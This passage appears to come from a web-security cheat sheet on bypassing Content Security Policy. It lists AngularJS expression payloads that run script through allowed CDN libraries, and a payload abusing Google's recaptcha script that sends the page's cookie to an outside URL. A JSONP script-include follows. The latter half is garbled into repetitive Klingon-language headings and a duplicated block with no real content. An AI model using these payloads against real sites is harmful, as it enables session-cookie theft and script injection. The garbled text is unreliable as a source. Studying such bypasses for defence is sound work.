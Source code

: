 ```markup
{{$on.curry.call().alert('xss')}}
</div>


<script src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
{{[].erase.call().alert('xss')}}
</div>
```
#### Abusing google recaptcha JS code

According to [**this CTF writeup**](https://blog-huli-tw.translate.goog/2023/07/28/google-zer0pts-imaginary-ctf-2023-writeup/?\_x\_tr\_sl=es&\_x\_tr\_tl=tlh&\_x\_tr\_hl=es&\_x\_tr\_pto=wapp#noteninja-3-solves) you can abuse [https://www.google.com/recaptcha/](https://www.google.com/recaptcha/) inside a CSP to execute arbitrary JS code bypassing the CSP:
```html
<div
ng-controller="CarouselController as c"
ng-init="c.init()"
>
&#91[c.element.ownerDocument.defaultView.parent.location="http://google.com?"+c.element.ownerDocument.cookie]]
<div carousel><div slides></div></div>

<script src="https://www.google.com/recaptcha/about/js/main.min.js"></script>
```
### Hochlogh ghItlh + JSONP

#### tlhIngan Hol

ghItlh Hochlogh je 'ej JSONP je

##### tlhIngan Hol

ghItlh Hochlogh je 'ej JSONP je

##### HTML

```html
<script src="https://third-party.com/endpoint?callback=handleResponse"></script>
```

##### tlhIngan Hol

```html
<script src="https://third-party.com/endpoint?callback=handleResponse"></script>
```

##### tlhIngan Hol

ghItlh Hochlogh je 'ej JSONP je

##### tlhIngan Hol
